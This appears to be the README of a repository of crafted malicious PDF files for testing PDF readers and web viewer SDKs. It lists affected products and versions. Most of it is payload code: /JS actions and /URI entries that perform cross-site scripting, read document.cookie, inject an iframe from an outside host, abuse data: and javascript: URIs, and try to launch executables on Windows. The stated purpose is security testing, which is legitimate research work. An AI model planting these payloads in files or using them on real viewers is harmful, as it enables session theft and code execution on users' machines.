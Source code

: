 # Payloads All The PDFs

<a href="https://twitter.com/intent/follow?screen_name=evaristegal0is"><img src="https://img.shields.io/twitter/follow/evaristegal0is?style=social" alt="Follow @evaristegal0is"></a>

A list of crafted malicious PDF files to test the security of PDF readers and tools.</br>

### Vulnerabilities found

- [Foxit PDF SDK For Web](https://www.npmjs.com/package/@foxitsoftware/foxit-pdf-sdk-for-web-library) 7.5.0 (~600 weekly downloads)
- [PDFTron WebViewer](https://www.npmjs.com/package/@pdftron/webviewer) 7.2.0, 7.3.1, 8.6.1, 10.1.0 (~75k weekly downloads)
- [PSPDFKit for Web](https://www.npmjs.com/package/pspdfkit) 2021.4.1 (~13k weekly downloads)
- [Syncfusion ej2-pdfviewer](https://www.npmjs.com/package/@syncfusion/ej2-pdfviewer) 20.2.40 (~6.8k weekly downloads)
- [React PDF viewer](https://www.npmjs.com/package/@react-pdf-viewer/core) 3.6.0 (~34k weekly downloads)

## Payloads list

### payload1.pdf

**Line 31**. Understand if [Acrobat Javascript APIs](https://www.adobe.com/content/dam/acom/en/devnet/acrobat/pdfs/AcrobatDC_js_api_reference.pdf) are supported.
```
/JS (app.alert\(1\); Object.getPrototypeOf(function*(){}).constructor = null; ((function*(){}).constructor("document.write('<script>confirm(document.cookie);</script><iframe src=https://14.rs>');"))().next();)
```

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
/URI (data:text/html,<script>alert\(2\);</script>)
```

**Line 177**. Try to inject Javascript code using annotations.
```
<</Type /Annot /Rect [284.7745656638 581.6814031126 308.7745656638 605.6814031126 ] /Subtype /Text /M (D:20210402013803+02'00) /C [1 1 0 ] /Popup 15 0 R /T (\">'><details open ontoggle=confirm\(3\)>) /P 6 0 R /Contents (��^@"^@>^@'^@>^@<^@d^@e^@t^@a^@i^@l^@s^@ ^@o^@p^@e^@n^@ ^@o^@n^@t^@o^@g^@g^@l^@e^@=^@c^@o^@n^@f^@i^@r^@m^@\(^@'^@X^@S^@S^@'^@\)^@>) >>
```

### payload2.pdf

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
/URI (\">'><details open ontoggle=confirm\(2\)>)
```

### payload3.pdf

**Line 31**. Understand if the PDF reader or tool runs arbitrary Javascript bypassing the Acrobat APIs.
```
/JS (app.alert\(1\); confirm\(2\); prompt\(document.cookie\); document.write\("<iframe src='https://14.rs'>"\);)
```

**Line 69**. Try to run remote commands on Windows.
```
/URI (file:///C:/Windows/system32/calc.exe)
```

### payload4.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
/JS (app.alert\(1\); app.openDoc("/C/Windows/System32/calc.exe");)
```

**Line 69**. Try to run remote commands on Windows.
```
 /URI (START C:/\Windows/\system32/\calc.exe)
```

### payload5.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
/JS (app.alert\(1\); app.launchURL\("START C:/\Windows/\system32/\calc.exe", true\); app.launchURL\("javascript:confirm\(3\);", true\);)
```

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
 /URI (javascript:confirm\(2\);)
```

### payload6.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
 /JS (app.alert\(1\); app.launchURL\("/C/Windows/system32/calc.exe", true\); app.launchURL\("'><details open ontoggle=confirm\(3\);", true\);)
```

___

![Hack the planet](img/hack_the_planet.gif)

If you want to support me you can offer me a coffee ☕</br></br>
<a href="https://www.buymeacoffee.com/gubello" target="_blank"><img src="https://bmc-cdn.nyc3.digitaloceanspaces.com/BMC-button-images/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: auto !important;width: auto !important;" ></a>
